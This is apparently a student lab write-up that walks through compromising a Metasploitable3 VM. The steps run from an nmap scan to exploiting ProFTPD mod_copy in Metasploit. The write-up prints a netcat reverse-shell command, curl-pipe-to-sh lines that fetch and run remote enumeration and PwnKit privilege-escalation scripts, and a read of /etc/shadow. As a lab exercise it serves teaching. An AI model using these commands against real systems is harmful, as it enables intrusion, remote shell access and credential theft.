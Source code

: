 📚 Phase 1: Setup, Service Compromise, and Custom Exploitation
🛠️ 1. Environment Setup
1.1 Import Victim VM (Metasploitable3)
Download .ova file from SourceForge Metasploitable3 Repository.

Open VirtualBox → File → Import Appliance.

Select .ova file and customize VM settings (RAM = 2048MB, CPU = 2).

Import completed successfully.

Screenshots:











1.2 Boot the Victim VM
Start the imported VM.

Login credentials:

Username: vagrant

Password: vagrant

Screenshot:



1.3 Obtain Victim IP Address
Inside Metasploitable3, run:

bash
Copy
Edit
ifconfig
Obtained IP address: 10.0.2.15

Screenshots:





1.4 Confirm Network Connectivity
From Kali (attacker machine):

bash
Copy
Edit
ping 10.0.2.15
Ping successful — confirming internal network connection (NAT Network).

Screenshot:



💣 2. TASK 1.1: Compromise Service Using Metasploit
2.1 Scan Victim with Nmap
In Kali VM:

bash
Copy
Edit
nmap -sV 10.0.2.15
Discovered open services: FTP (ProFTPD 1.3.5) on port 21.

Screenshot:


📝 GitHub Comment:
"Scanned victim machine to discover services. FTP ProFTPD 1.3.5 detected on port 21, vulnerable to known exploits."

2.2 Start Metasploit Console
In Kali VM:

bash
Copy
Edit
sudo msfconsole
Screenshot:


📝 GitHub Comment:
"Launched Metasploit Framework for exploitation."

2.3 Search for FTP Exploit (mod_copy)
Inside Metasploit:

bash
Copy
Edit
search mod_copy
Found exploit: exploit/unix/ftp/proftpd_modcopy_exec.

Select it using:

bash
Copy
Edit
use 0
Screenshot:


📝 GitHub Comment:
"Selected proftpd_modcopy_exec exploit module targeting ProFTPD service."

2.4 Configure Exploit Options
Set target IP and writable site path:

bash
Copy
Edit
set RHOSTS 10.0.2.15
set SITEPATH /var/www/html
Screenshot:


📝 GitHub Comment:
"Set victim IP and writable FTP path for payload delivery."

2.5 Set Payload and Command
Set the payload and reverse shell command:

bash
Copy
Edit
set payload cmd/unix/generic
set LHOST 10.0.2.6
set LPORT 4444
set CMD /tmp/mkfifo /tmp/f; cat /tmp/f | /bin/sh -i 2>&1 | nc 10.0.2.6 4444 > /tmp/f
Screenshot:


📝 GitHub Comment:
"Configured generic Unix reverse shell payload connecting back to attacker's Netcat listener."

2.6 Start Netcat Listener (Terminal A)
In a new Kali terminal:

bash
Copy
Edit
nc -lnvp 4444
Screenshot:


📝 GitHub Comment:
"Started Netcat listener on attacker's machine awaiting shell connection."

2.7 Launch Exploit (Terminal B)
In Metasploit terminal:

bash
Copy
Edit
run
Screenshot:


📝 GitHub Comment:
"Triggered the exploit. Payload sent successfully. Awaiting reverse shell connection."

2.8 Confirm Reverse Shell Access
Once the session is received, confirm shell access:

bash
Copy
Edit
whoami
ls
Screenshot:


📝 GitHub Comment:
"Reverse shell session established. Accessed victim as www-data user."

🛠️ 3. TASK 1.2: Custom Exploitation and Privilege Escalation
3.1 Enumerate System with Custom LinPEAS Script
Inside the shell session:

bash
Copy
Edit
curl -fsSL https://raw.githubusercontent.com/A0-2H/ICS344-CourseProject/main/phase1/custom/lightpeas.sh | sh
Screenshot:


📝 GitHub Comment:
"Executed custom lightpeas.sh script to enumerate victim system for privilege escalation opportunities."

3.2 Exploit Privilege Escalation with Custom Exploit
Inside the shell session:

bash
Copy
Edit
sh -c "$(curl -fsSL https://raw.githubusercontent.com/A0-2H/ICS344-CourseProject/main/phase1/custom/escalate.sh)"
The script:

Downloads ExploitRoot.c.

Compiles it.

Executes the privilege escalation.

Screenshot:


📝 GitHub Comment:
"Ran custom escalate.sh automation script. Downloaded, compiled, and executed ExploitRoot.c to escalate privileges."

3.3 Confirm Root Access
After successful exploitation:

bash
Copy
Edit
whoami
cat /etc/shadow
Screenshot:


📝 GitHub Comment:
"Privilege escalation successful. Gained root access and retrieved contents of /etc/shadow."

📦 Custom Scripts Used

File	Description
lightpeas.sh	Custom enumeration tool based on LinPEAS
ExploitRoot.c	C-based custom exploit based on PwnKit (CVE-2021-4034)
escalate.sh	Shell automation script that downloads, compiles, and runs ExploitRoot.c
✅ All scripts are located inside:
phase1/custom/
